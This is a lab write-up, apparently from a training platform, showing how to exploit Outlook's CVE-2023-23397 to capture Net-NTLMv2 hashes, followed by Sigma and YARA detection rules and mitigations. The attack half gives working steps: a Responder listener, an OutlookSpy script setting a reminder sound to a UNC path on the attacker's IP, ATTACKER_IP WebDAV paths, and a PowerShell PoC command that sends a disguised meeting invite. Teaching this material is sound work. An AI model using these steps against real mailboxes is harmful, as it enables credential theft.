


Leak password hashes from a user by sending them an email by abusing CVE-2023-23397.


By: CyberSec
Date: June 8, 2023


Summarising the steps required to exploit the vulnerability, an attacker would need to:  

1. Create a malicious meeting/appointment with a custom reminder sound pointing to a UNC path on the attacker's machine.
2. Send the invite to the victim via email.
3. Wait for the reminder to trigger a connection against the attacker's machine.
4. Capture the Net-NTLMv2 hash, use authentication relaying, or profit in any other way.


The CVE-2023-23397 is a critical vulnerability that impacts all versions of the Outlook desktop app on any Windows system.


IMPORTANT NOTE: 

Outlook web app (OWA) and Microsoft 365 aren't vulnerable since they do not support NTLM authentication.


Attacker Machine IP: 10.8.78.131 (Used for Responder)
Client Machine IP: 10.10.200.239  (Used for Generating Meeting Invite with Outlook Client)


This exploit is a zero click exploit as there are no user interaction required to make the exploit work successfully.

Once an infected email arrives in the user's inbox, the attacker can obtain sensitive Net-NTLMv2 credential hashes.


To demonstrate this attack, we will first login via RDP to our Windows Client Machine, were we have the Outlook client installed.

for the sake of this lab, we will connect to a FreeRDP server with clipboard redirection: 

Command SYNTAX: 

`xfreerdp /v:ip_address /u:username /p:password +clipboard`


Command: 

```
xfreerdp /v:10.10.200.239 /u:Administrator /p:Password321 +clipboard
```


Once connected, we will start outlook.


You can specify the audio file played when a user gets a notification reminder for a calendar meeting or event. Typically, this would be used for a user to set up their own notifications by pointing to an audio file:

Tip: Manipulating this parameter can enable a threat actor to force Outlook to leak the current password hashes to an attacker with zero interaction required.


To exploit this vulnerability, an attacker must create a malicious calendar invitation that includes a reference to a sound file pointing to a file in a network share in the attacker's machine. At a low level, an Outlook email stores the reference to the sound file in an internal parameter called **PidLidReminderFileParameter**. 

To ensure that the audio we embed in our malicious email will take precedence over the victim's default reminder configurations, we will also need to set another parameter called **PidLidReminderOverride** to `true`.

To set up the **PidLidReminderFileParameter** property to point to a network share, the attacker can specify a **Universal Naming Convention (UNC)** path instead of a local file. 

UNC is used in Windows operating systems to find network resources (files, printers, shared documents). These paths consist of a double backslash, the IP address or name of the computer hosting the resource, the share name and the file name. For example:

When the victim receives the malicious email, the UNC path directs them to that SMB share, triggering the vulnerability. This causes the system to start an NTLM authentication process against the attacker's machine, leaking a Net-NTLMv2 hash that the attacker can later try to crack.


If for some reason the SMB protocol isn't a viable alternative to use, non-server versions of Windows will accept using UNC paths pointing to ports 80 or 443, and use HTTP to retrieve the file from a WebDAV-enabled web server. The syntax of such UNC path is as follows:

`\\ATTACKER_IP@80\foo\bar.wav`

`\\ATTACKER_IP@443\foo\bar.wav`

This may be useful to bypass firewall restrictions preventing outgoing connections to port 445 (SMB).


### Create a malicious meeting/appointment with a custom reminder 

###### How to craft a Malicious Appointment

Let's craft a malicious email containing an appointment with the required parameters to trigger it.

Since we expect the victim to trigger an authentication attempt against the attacker on port 445, we will set up Responder to handle the authentication process and capture the NetNTLM hash for us.

Starting Responder: 

Command: 

```
sudo responder -I tun0

```

./img/outlook_ntlm/Pasted image 20230608134817.png)


We are now ready to trigger an authentication attempt via the Outlook vulnerability.


We can try setting the sound file path to a UNC path that points to our AttackBox and click the OK button like this:


However, Outlook will silently ignore the UNC path and revert to using the default WAV file, which can be confirmed by going back to the Sound dialogue:


Since Outlook isn't expecting users to input a UNC path here, it probably discards our attempt as invalid output. But not all hope is lost!


### OutlookSpy

We can use the OutlookSpy plugin to access all of Outlook's internal parameters directly, including the reminder's sound file.

Before installing the file, we will need to close OUTLOOK.


After installing Outlookspy, we can restart outlook, set a new appointment and use OutlookSpy to edit the appointment parameters.


To view our current appointment from OutlookSpy, click the `OutlookSpy` tab and then the `CurrentItem` button in the taskbar:


From this window, you can see the parameters associated with the appointment's reminder. We want to set the **ReminderSoundFile** parameter to the UNC path that points to our AttackBox and set both the **ReminderOverrideDefault** and **ReminderPlaySound** to `true`. 

Just for reference, here's what each parameter does:

- **ReminderPlaySound:** boolean value that indicates if a sound will be played with the reminder.
- **ReminderOverrideDefault**: boolean value that indicates the receiving Outlook client to play the sound pointed by **ReminderSoundFile**, instead of the default one.
- **ReminderSoundFile**: string with the path to the sound file to be used. For our exploit, this will point to a bogus shared folder in our AttackBox.

We can use the script tab and the following script to change the parameters to the required values:

```
AppointmentItem.ReminderOverrideDefault = true
AppointmentItem.ReminderPlaySound = true
AppointmentItem.ReminderSoundFile = "\\10.8.78.131\nonexistent\sound.wav"

```


Tip: 

Be sure to click the `Run` button for the changes to be applied. 

You can go back to the `Properties` tab to check that the values were correctly changed. 

Finally, save your appointment to add it to your calendar, making sure the reminder is set to 0 minutes and that the appointment matches the current time and date, as we want it to trigger immediately:


If all went as expected, you should immediately see a reminder popping up:


And you should receive the authentication attempt in your Responder console on your AttackBox:


#### The Exploit

URL: https://github.com/api0cradle/CVE-2023-23397-POC-Powershell




Next we will use the  Powershell exploit to leverage Outlook's COM objects to build emails and appointments easily. It contains a couple of functions that we can use:

- **Save-CalendarNTLMLeak:** This function creates a malicious appointment and saves it to your own calendar. Useful for testing purposes.

- **Send-CalendarNTLMLeak:** This function creates a malicious appointment and sends it via email to a victim. The email invitation will be sent from your Outlook's current default account.

### Using the Exploit


Commands: 

```

Import-Module .\CVE-2023-23397.ps1

Send-CalendarNTLMLeak -recipient "test@thm.loc" -remotefilepath "\\10.8.78.131\foo\bar.wav" -meetingsubject "CyberSec Meeting Request" -meetingbody "This is just a regular meeting invitation :) - Floyd"


```


Be sure to replace ATTACKER_IP with the IP address of your AttackBox in the `-remotefilepath` parameter. Notice that you are using the exploit to send yourself an email in this case, as we have a single account in the machine, but normally you would target other email addresses.

Since the exploit makes use of the current Outlook instance to send the email, you will likely get a couple of alerts asking you to grant permission to the script to send emails on your behalf. 

Make sure to press Allow as many times as needed. 

Marking the "Allow access for 10 minutes" checkbox should also help speed this process up:





# Detection


Now that we have gone through the steps to weaponize the `CVE-2023-23397` attack on Outlook, let's talk about a few ways to detect this attack within the network. Each attack leaves patterns or artifacts that could help the detection team identify the threats. It all depends on the network visibility and the log sources that are being collected and providing the much important visibility.  

Here, we will discuss a few ways to detect this attack on the host.

Sigma Rules  

The following Sigma rule detects Outlook initiating a connection to a WebDav or SMB share, indicating a post-exploitation phase.  

```c
title: CVE-2023-23397 Exploitation Attempt
id: 73c59189-6a6d-4b9f-a748-8f6f9bbed75c
status: experimental
description: Detects outlook initiating connection to a WebDAV or SMB share, which
  could be a sign of CVE-2023-23397 exploitation.
author: Robert Lee @quantum_cookie
date: 2023/03/16
references:
- https://www.trustedsec.com/blog/critical-outlook-vulnerability-in-depth-technical-analysis-and-recommendations-cve-2023-23397/
tags:
- attack.credential_access
- attack.initial_access
- cve.2023.23397
logsource:
  service: security
  product: windows
  definition: 'Requirements: SACLs must be enabled for "Query Value" on the registry
    keys used in this rule'
detection:
  selection:
    EventID:
    - 4656
    - 4663
    ProcessName|endswith: \OUTLOOK.EXE
    Accesses|contains: Query key value
    ObjectName|contains|all:
    - \REGISTRY\MACHINE\SYSTEM
    - Services\
    ObjectName|endswith:
    - WebClient\NetworkProvider
    - LanmanWorkstation\NetworkProvider
  condition: selection
falsepositives:
- Searchprotocolhost.exe likes to query these registry keys. To avoid false postives,
  it's better to filter out those events before they reach the SIEM
level: critical
```

This [Sigma Rule](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_webdav_client_susp_execution.yml) looks to detect svchost.exe spawning rundll32.exe with command arguments like `C:\windows\system32\davclnt.dll,DavSetCookie`, which indicates a post-exploitation/exfiltration phase.  

```c
title: Suspicious WebDav Client Execution
id: 982e9f2d-1a85-4d5b-aea4-31f5e97c6555
status: experimental
description: 'Detects "svchost.exe" spawning "rundll32.exe" with command arguments
  like C:\windows\system32\davclnt.dll,DavSetCookie. This could be an indicator of
  exfiltration or use of WebDav to launch code (hosted on WebDav Server) or potentially
  a sign of exploitation of CVE-2023-23397

  '
references:
- https://twitter.com/aceresponder/status/1636116096506818562
- https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/
- https://www.pwndefend.com/2023/03/15/the-long-game-persistent-hash-theft/
author: Nasreddine Bencherchali (Nextron Systems), Florian Roth (Nextron Systems)
date: 2023/03/16
tags:
- attack.exfiltration
- attack.t1048.003
- cve.2023.23397
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    ParentImage|endswith: \svchost.exe
    Image|endswith: \rundll32.exe
    CommandLine|contains: C:\windows\system32\davclnt.dll,DavSetCookie
    CommandLine|re: ://\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}
  filter_local_ips:
    CommandLine|contains:
    - ://10.
    - ://192.168.
    - ://172.16.
    - ://172.17.
    - ://172.18.
    - ://172.19.
    - ://172.20.
    - ://172.21.
    - ://172.22.
    - ://172.23.
    - ://172.24.
    - ://172.25.
    - ://172.26.
    - ://172.27.
    - ://172.28.
    - ://172.29.
    - ://172.30.
    - ://172.31.
    - ://127.
    - ://169.254.
  condition: selection and not 1 of filter_*
falsepositives:
- Unknown
level: high
```

These SIGMA rules can be converted into the detection and monitoring tool to hunt for suspicious log activity within the network. To learn more about SIGMA rules, check this introductory room on [Sigma](https://tryhackme.com/room/sigma).

Yara Rule  

YARA rule looks for the pattern within the files on disk. The following three community YARA rules can be used to detect the suspicious MSG file on the disk with two properties discussed in the above tasks.

```c
rule SUSP_EXPL_Msg_CVE_2023_23397_Mar23 {
   meta:
      description = "MSG file with a PidLidReminderFileParameter property, potentially exploiting CVE-2023-23397"
      author = "delivr.to, modified by Florian Roth, Nils Kuhnert, Arnim Rupp, marcin@ulikowski.pl"
      date = "2023-03-15"
      modified = "2023-03-17"
      score = 60
      reference = "https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/"
      hash = "47fee24586cd2858cfff2dd7a4e76dc95eb44c8506791ccc2d59c837786eafe3"
      hash = "582442ee950d546744f2fa078adb005853a453e9c7f48c6c770e6322a888c2cf"
      hash = "6c0087a5cbccb3c776a471774d1df10fe46b0f0eb11db6a32774eb716e1b7909"
      hash = "7fb7a2394e03cc4a9186237428a87b16f6bf1b66f2724aea1ec6a56904e5bfad"
      hash = "eedae202980c05697a21a5c995d43e1905c4b25f8ca2fff0c34036bc4fd321fa"
   strings:
      /* https://interoperability.blob.core.windows.net/files/MS-OXPROPS/%5bMS-OXPROPS%5d.pdf */
      /* PSETID_Appointment */
      $psetid_app = { 02 20 06 00 00 00 00 00 C0 00 00 00 00 00 00 46 }
      /* PSETID_Meeting */
      $psetid_meeting = { 90 DA D8 6E 0B 45 1B 10 98 DA 00 AA 00 3F 13 05 }
      /* PSETID Task */
      $psetid_task = { 03 20 06 00 00 00 00 00 c0 00 00 00 00 00 00 46 }
      /* PidLidReminderFileParameter */
      $rfp = { 1F 85 00 00 }
      /* \\ UNC path prefix - wide formatted */
      $u1 = { 00 00 5C 00 5C 00 }
      /* not MSI */
      $fp_msi1 = {84 10 0C 00 00 00 00 00 C0 00 00 00 00 00 00 46}
   condition:
      uint32be(0) == 0xD0CF11E0
      and uint32be(4) == 0xA1B11AE1
      and 1 of ($psetid*)
      and $rfp
      and $u1
      and not 1 of ($fp*)
}
```

  

```c
rule EXPL_SUSP_Outlook_CVE_2023_23397_Exfil_IP_Mar23 {
   meta:
      description = "Detects suspicious .msg file with a PidLidReminderFileParameter property exploiting CVE-2023-23397 (modified delivr.to rule - more specific = less FPs but limited to exfil using IP addresses, not FQDNs)"
      author = "delivr.to, Florian Roth, Nils Kuhnert, Arnim Rupp, marcin@ulikowski.pl"
      date = "2023-03-15"
      modified = "2023-03-18"
      score = 75
      reference = "https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/"
      hash = "47fee24586cd2858cfff2dd7a4e76dc95eb44c8506791ccc2d59c837786eafe3"
      hash = "582442ee950d546744f2fa078adb005853a453e9c7f48c6c770e6322a888c2cf"
      hash = "6c0087a5cbccb3c776a471774d1df10fe46b0f0eb11db6a32774eb716e1b7909"
      hash = "7fb7a2394e03cc4a9186237428a87b16f6bf1b66f2724aea1ec6a56904e5bfad"
      hash = "eedae202980c05697a21a5c995d43e1905c4b25f8ca2fff0c34036bc4fd321fa"
      hash = "e7a1391dd53f349094c1235760ed0642519fd87baf740839817d47488b9aef02"
   strings:
      /* https://interoperability.blob.core.windows.net/files/MS-OXPROPS/%5bMS-OXPROPS%5d.pdf */
      /* PSETID_Appointment */
      $psetid_app = { 02 20 06 00 00 00 00 00 C0 00 00 00 00 00 00 46 }
      /* PSETID_Meeting */
      $psetid_meeting = { 90 DA D8 6E 0B 45 1B 10 98 DA 00 AA 00 3F 13 05 }
      /* PSETID Task */
      $psetid_task = { 03 20 06 00 00 00 00 00 c0 00 00 00 00 00 00 46 }
      /* PidLidReminderFileParameter */
      $rfp = { 1F 85 00 00 }
      /* \\ + IP UNC path prefix - wide formatted */
      $u1 = { 5C 00 5C 00 (3? 00 2E|3? 00 3? 00 2E|3? 00 3? 00 3? 00 2E) 00 (3? 00 2E|3? 00 3? 00 2E|3? 00 3? 00 3? 00 2E) 00 (3? 00 2E|3? 00 3? 00 2E|3? 00 3? 00 3? 00 2E) 00 (3? 00 3? 00 3? 00|3? 00 3? 00|3? 00) }
      /* \\ + IP UNC path prefix - regular/ascii formatted for Transport Neutral Encapsulation Format */
      $u2 = { 00 5C 5C (3? 2E|3? 3? 2E|3? 3? 3? 2E) (3? 2E|3? 3? 2E|3? 3? 3? 2E) (3? 2E|3? 3? 2E|3? 3? 3? 2E) (3? 3? 3?|3? 3?|3?) }
      /* not MSI */
      $fp_msi1 = {84 10 0C 00 00 00 00 00 C0 00 00 00 00 00 00 46}
   condition:
      (
         uint16(0) == 0xCFD0 and 1 of ($psetid*)
         or
         uint32be(0) == 0x789F3E22
      )
      and any of ( $u* )
      and $rfp
      and not 1 of ($fp*)
}
```

  

```c
rule EXPL_SUSP_Outlook_CVE_2023_23397_SMTP_Mail_Mar23 {
   meta:
      author = "Nils Kuhnert"
      date = "2023-03-17"
      description = "Detects suspicious *.eml files that include TNEF content that possibly exploits CVE-2023-23397. Lower score than EXPL_SUSP_Outlook_CVE_2023_23397_Exfil_IP_Mar23 as we're only looking for UNC prefix."
      score = 60
      reference = "https://twitter.com/wdormann/status/1636491612686622723"
   strings:
      // From:
      $mail1 = { 0A 46 72 6F 6D 3A 20 }
      // To: 
      $mail2 = { 0A 54 6F 3A }
      // Received:
      $mail3 = { 0A 52 65 63 65 69 76 65 64 3A }
      // Indicates that attachment is TNEF
      $tnef1 = "Content-Type: application/ms-tnef" ascii
      $tnef2 = "\x78\x9f\x3e\x22" base64
      // Check if it's an IPM.Task
      $ipm = "IPM.Task" base64
      // UNC prefix in TNEF
      $unc = "\x00\x00\x00\x5c\x5c" base64
   condition:
      all of them
}
```

YARA is already installed on the machine. The YARA rule file `cve-2023-23397.yar` and the malicious MSG file `appointment.msg` can be found on the Desktop. Open the terminal and run the following command to run the rule against the MSG file.  

Powershell

```shell-session
PS C:\USers\Administrator\Desktop> yara64 .\cve-2023-23397.yar.txt .\appointment.msg
SUSP_EXPL_Msg_CVE_2023_23397_Mar23 .\appointment.msg
EXPL_SUSP_Outlook_CVE_2023_23397_Exfil_IP_Mar23 .\appointment.msg
```

To learn more about YARA and its pattern-matching use, check this introductory room on [YARA](https://tryhackme.com/room/yara).

Powershell script  

Microsoft has released a PowerShell script [CVE-2023-23397.ps1](https://microsoft.github.io/CSS-Exchange/Security/CVE-2023-23397/)  that will check the Exchange messaging items like Mail, calendar,  and tasks to see if the IOCs related to the CVE-2023-23397 attack are found.  The script can be used to audit and clean the detected items.

**Note:** This script is not usable in this lab.  

Mitigation

This vulnerability is being exploited extensively in the wild. Some of the recommended steps as recommended by [Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-23397) in order to mitigate and avoid this attack are:

- Add users to the Protected Users Security Group, which prevents using NTLM as an authentication mechanism.
- Block TCP 445/SMB outbound from your network to avoid any post-exploitation connection.
- Use the PowerShell script released by Microsoft to scan against the Exchange server to detect any attack attempt.
- Disable WebClient service to avoid webdav connection.


# Mitigation

This vulnerability is being exploited extensively in the wild. Some of the recommended steps as recommended by [Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-23397) in order to mitigate and avoid this attack are:

- Add users to the Protected Users Security Group, which prevents using NTLM as an authentication mechanism.
- Block TCP 445/SMB outbound from your network to avoid any post-exploitation connection.
- Use the PowerShell script released by Microsoft to scan against the Exchange server to detect any attack attempt.
- Disable WebClient service to avoid webdav connection.